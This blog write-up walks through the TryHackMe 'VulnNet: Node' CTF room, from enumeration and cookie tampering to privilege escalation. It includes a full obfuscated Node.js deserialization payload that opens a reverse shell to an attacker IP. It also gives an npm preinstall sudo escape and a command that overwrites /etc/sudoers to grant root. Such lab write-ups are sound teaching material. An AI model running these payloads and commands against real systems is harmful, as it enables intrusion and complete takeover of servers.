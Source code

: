 ```yaml
---
title: "VulnNet Node TryHackMe"
date: "07-23-2021"
author: "Reda BELHAJ"
summary: "VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network. This room is Created by TheCyb3rW0lf"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/VulnNet/bg.jpg"
---
```

Let’s take a look at the [VulnNet: Node CTF](https://tryhackme.com/room/vulnnetnode) on TryHackMe.

## Enumeration
### Nmap Scan

The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.143.49 -sC -sS -Pn
```
The “Nmap Output” displayed `1` service running under port 8080 you guessed it that's HTTP.
![Nmap](/images/VulnNet/nmap.jpg)
Connecting to this port in a browser shows a web page with posts

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/VulnNet/gobuster.jpg)

## Exploring 
Let's take a closer look at the web application. When we visit the website, we are presented with a regular online application  with posts from users.

So by Exploring the web app I saw the Welcome guest header and I decided to intercept the servers main page request using burpsuite, And I found:
![Burp](/images/VulnNet/burp.jpg)

A session cookie is visible in the request. So I sent the cookie to the decoder Tab:
![Decode](/images/VulnNet/decode.jpg)

So by decoding the cookie We have some JSON informations, My first assumption was maybe we could be able to bypass the application and I tried to set a new cookie with:
![Encode](/images/VulnNet/encode.jpg)

Then I replaced the guest cookie with the encoded modified cookie and it output the following:
![Admin](/images/VulnNet/admin.jpg)

![Admin 2](/images/VulnNet/admin2.jpg)

Next I decided to go to /login but I didn't found nothing, So I began to consider that maybe the login page is a rabbit hole and I came up with this idea 🤔 .

> What if I sent an invalid cookie

![Error](/images/VulnNet/error.jpg)

## Exploiting

Searching for “nodejs unserialize reverse shell” leads to [this page](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which I followed to generate the reverse shell payload. and I also came across [this repository](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) and I run this command:

```
python nodeshell.py 127.0.0.1 4444
```

Now let’s generate the serialized payload and add:

```
{"rce":"_$$ND_FUNC$$_function (){// The payload //}()"}
```

```
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,56,46,49,55,52,46,49,56,48,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

```
Finally, base64-encode the serialized payload as follows:
![payload](/images/VulnNet/encodepaylo.jpg)

## User Flag
And now I got the reverse shell as `www`
So I checked [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo) so that I spawn a bash shell as `serv-manage`.
![sudo](/images/VulnNet/sudo.jpg)

```
echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json
sudo -u serv-manage /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i
```
Let’s get the user flag in /home/serv-manage

```
THM{0********************************
```

## Root Flag
So now I tried the infamous `sudo -l` comand to privilege escalate the system again:

![sudo 2](/images/VulnNet/sudo2.jpg)

```
cat /etc/systemd/system/vulnnet-auto.timer
```
The service executes df system command:

```
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
```
So Now I added this line in the file:

```
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

And now we're root, Let's check the root dir for a flag:

```
THM{a********************************
```